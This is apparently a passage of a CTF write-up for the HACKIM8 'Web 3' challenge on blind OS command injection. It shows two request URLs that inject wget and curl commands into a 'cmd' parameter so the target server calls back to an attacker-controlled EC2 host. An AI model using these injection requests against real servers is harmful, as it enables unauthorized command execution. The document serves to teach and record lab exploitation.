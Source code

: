 ## HACKIM8 - Web 3 - Blind OS command injection

In this interesting challenge, application is taking user input and passes it to a application code that runs a task on the underlying server. I have tried to execute simple OS command but I could not able to see any response so immediately I have started my EC2 amazon server and force vulnerable app to send a request to my cloud server. I have tried below steps: 
   
      http://54.89.146.217/index.php?cmd=wget%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      http://54.89.146.217/index.php?cmd=curl%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      


- OS Command might be executed on the server side but it's not reflecting back in response. 
- Server was also not accepting few utilities/commands like `wget`,`hping3`,`scapy`,`curl`,`http` and many more. 

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/packet.PNG "Optional Title")
